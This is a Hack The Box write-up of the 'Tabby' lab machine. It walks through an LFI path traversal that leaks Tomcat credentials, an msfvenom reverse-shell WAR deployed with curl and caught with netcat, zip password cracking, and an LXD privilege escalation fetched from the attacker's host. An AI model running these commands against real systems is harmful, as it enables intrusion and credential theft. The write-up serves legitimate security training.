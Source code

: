 # Tabby
[Room link](https://www.hackthebox.eu/home/machines/profile/259)

# Enumeration
Rustscan shows port 22, 80 and 8080 are open.

Port 80 is a website "Mega Hosting".
Port 8080 is a Tomcat server.

Port 80, clicking on the news section redirects us to http://megahosting.htb/news.php?file=statement this is just the 10.10.10.194 host so let's add it to our hosts file.
Important here is the ?file=statement part, we can use LFI here.

As always we check the /etc/passwd file real quick but on first sight nothing interesting pops up.
http://10.10.10.194/news.php?file=../../../../../../../etc/passwd

Not too long ago I did a box about exploiting LXD, so the LXD user immediately got my attention.
The LXD user is clearly not for this step though because that would require us to already be on the box.

After doing a bit more research I found out about the existence of a file called tomcat-users.xml
This file contains info about users who have access to the tomcat admin panel so it's definitely worth trying to get our hands on.
I spent about 30 minutes looking for this file but I did finally find it thanks to this askubuntu thread.

https://askubuntu.com/questions/135824/what-is-the-tomcat-installation-directory

I modified it a little bit and eventually stumbled upon the file here:
http://10.10.10.194/news.php?file=../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml

![Getting the users file](LFI_Password.png)

Now we got a precious login:
``tomcat:$3cureP4s5w0rd123!``

*Note*: when doing LFI you should use Burp Suite instead of just using your browser, tomcat-users.xml wouldn't show anything in the browser but it would in Burp, you can easily miss information by using your browser.

Let's login to the host-manager.

# Getting a shell
After getting into the host manager I got stuck for a bit, I read some documentation and eventually looked up how to exploit the *manager*.
Now some of you may realise that /manager and /host-manager are two completely different things, but I didn't realise this while researching.
This ended up being very good for me as I never realised that my login didn't work for the normal /manager endpoint, if I did realise this I would have probably been stuck here a lot longer.

During this research I found this really nice article on how to exploit the manager, I ended up using the msfvenom approach as the metasploit option didn't work (which makes sense because my credentials don't have permission to access the /manager page).
https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/

We can generate a reverse shell using msfvenom.

```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.160 LPORT=1234 -f war > shell.war
```

The problem starts to come when you want to upload the reverse shell. The methods explained in the article didn't work for me (again, because I didn't have the correct permissions).
I did some more research and eventually found a stackoverflow thread on how to upload a war file using only the command line.

https://stackoverflow.com/questions/25029707/how-to-deploy-war-file-to-tomcat-using-command-prompt

The one that worked for me was this one:

```sh
curl -v -u 'tomcat:$3cureP4s5w0rd123!' -T shell.war 'http://10.10.10.194:8080/manager/text/deploy?path=/shell&update=true'
```

This worked and I'll be honest, after writing this and furter researching this I don't fully understand why, if you know why feel free to contact me.

Anyways back to hacking.
Now that we have our payload uploaded we can get a shell.
During payload generation I put the listening port to 1234 so I'll listen on that port.

```sh
nc -lvnp 1234
```

Now let's see if our payload worked, point the browser to http://10.10.10.194:8080/shell/ and a shell should open.

# Becoming Ash
Now that we have a shell we can do some exploring. In the /home directory we can find a user called "ash".
In the /var/www/html/files directory we can find a backup zip file, let's download it.
I personally just used wget to get the file but there's probably some other ways.

```sh
wget http://10.10.10.194/news.php?file=../../../../../../../../var/www/html/files/16162020_backup.zip
mv news.php\?file\=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fvar%2Fwww%2Fhtml%2Ffiles%2F16162020_backup.zip backup.zip
```

Now we have a copy of the backup so we can unzip it, or can we?
Nope, it's password protected, let's use john the ripper to crack it.

```sh
zip2john backup.zip > ziphash.txt
john ziphash.txt --wordlist=/opt/wordlists/rockyou.txt
```
> admin@it         (backup.zip)

Boom, we got the password for the zip. I looked around in here but there's nothing interesting.
The point of cracking this zip was not to look at the files but it was actually to get the password of the ash user, as this also admin@it.

So let's change to the ash user, I tried to ssh into the device but it didn't work so we'll have to use the old shell.
We're still in an unstable reverse shell so let's stabilize it.

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
You could stabilize it further using stty and exporting your term but that won't be necessary unless you really need your CTRL-L.
Oh yeah, don't forget to get your user flag.

# I am become root

We could do some quick manual enumeration (such as sudo -l) but as you might remember there was an LXD user.
You might also remember I mentioned exploiting this in a previous box, let's see if it's the same vulnerability.

First get the source code for the exploit, you can just copy it from the exploit-db page.
https://www.exploit-db.com/exploits/46978
I saved it as exploit.sh.

```sh
# On the attacker machine, execute in same folder as exploit.sh
sudo python3 -m http.server 80

# On the victim machine
wget http://[attacker-ip]/exploit.sh

chmod +x exploit.sh
./exploit.sh -f alpine-v3.12-i686-20201025_1407.tar.gz
```

If you did everything right a container will open, let's confirm if we are root using *whoami*
Congrats on rooting the box, you can get your very deserved root flag now.

*Note*: the alpine file was already on the system when i logged in, in case it isn't you should build your own and transfer it to the ash user. There's detailed instructions on how to do that on the exploit-db page. Please clean up after you exploit :).

```sh
cat /mnt/root/root/root.txt
```

# Conclusion
I spent a few hours completing this box and I'm very happy I did.
I got to learn a lot more about Tomcat and got to use an exploit I had used before which really showed me that CTFs are truly a valuable use of your time.

